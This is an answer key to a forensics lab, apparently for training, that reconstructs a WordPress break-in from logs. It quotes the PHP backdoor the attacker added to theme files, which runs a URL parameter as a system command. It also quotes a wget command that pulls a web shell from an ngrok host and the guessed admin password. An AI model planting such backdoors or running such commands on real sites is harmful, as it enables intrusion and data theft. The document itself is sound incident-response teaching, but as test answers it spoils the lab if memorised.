 # 8: Answers

**Don't start here! Try the lab first!**

## Big Questions

Let's start with the answers to the big questions.

### 1. When did the attack take place?

The attack took place between Mar 4, 2023 @ 22:29:15.000 (first URL hit) and Mar 4, 2023 @ 22:50:07.00 (last command run).

### 2. How did the attackers gain initial access to the site?

The attackers performed a dictionary attack against the website, eventually guessing the login password.

### 3. How did they establish persistence?

Persistence was established 2 ways. First, the Astra theme's `404.php` was modified to enable remote code execution, which allowed 2 web shells to be dropped onto the system: `monitor.php` and `lang.php`. Then, a new user account was created, as reported by the site owner.

### 4. What were the attackers _unable_ to do?

HTTP requests resulting in `403` show that web server security rules prevented the attackers from accessing files they uploaded to the `wp-content` folders.

### 5. What was the impact of the attack?

The contents of `/etc/passwd` and `wp-config.php` were exfiltrated. If the password used for the database was used anywhere else, those assets may also be compromised.

### 6. How could this have been prevented?

Several defensive measures could have stopped this attack. A plugin like [Wordfence](https://www.wordfence.com) could have prevented the brute force attack altogether.

Endpoint detection and response tools could have detected malicious files/behaviors on the system and quarantined them.

But the easiest, most obvious preventive measure? A password stronger than `WhisperWolf2033!`.

## Lab Section Answers

**What day shows a major spike in HTTP requests?**

March 4, 2022

**What hour shows a spike in HTTP requests?**

22:00

**When did the activity burst start?**

Mar 4, 2023 @ 22:27:03.000


**When did the activity burst end?**

Mar 4, 2023 @ 22:30:54.000

**How many requests for `wp-login.php` were there in this timeframe?**

2819

**How many requests were NOT response code 200?**

4

**What is the source IP of these events?**

98.147.146.215

**With this information, what do you think is happening here?**

This is a dictionary attack to brute-force the login.

**What files appear to have been edited by the attacker?**

* `wp-content/plugins/hello.php`
* `wp-content/themes/astra/404.php`

**What appears to have been added to these files?**

```php
if(isset($_GET["ij"])) {
	system($_GET["ij"]);
}
```

**What does this code do?**

Executes the command provided by the `ij` URL query parameter.

**What new files are being requested?**

* `monitor.php`
* `lang.php`

**What is the url.path the attacker used to access the infected PHP?**

`/20233`

**What command did the attacker execute to create the first mystery file?**

`wget https://07d6-98-147-146-215.ngrok.io/monitor.php`

**What other action did the attacker undertake in the admin dashboard?**

Created a new user.

**What directory did the suspicious command run from?**

`/var/www/html/wordpress`

**What two files' contents did the attacker print?**

* `/etc/passwd`
* `wp-config.php`

**What was the nickname of the file that was deleted?**

p0wnyshell

**We've now seen a couple of moves/downloads to files within `wp-content`. Why do you think these weren't used?**

Server security rules prevent direct access to `wp-content`.

**What is the path (starting from the webroot) to the remaining copy of `lang.php`?**

`wp-content/themes/astra/lang.php`

**What was the value of PWN used by the attackers?**

`foo`

**What is the variable that stores the joined `$register_key` array?**

`$content`

**Who is the creator of this webshell?**

WhiteWinterWolf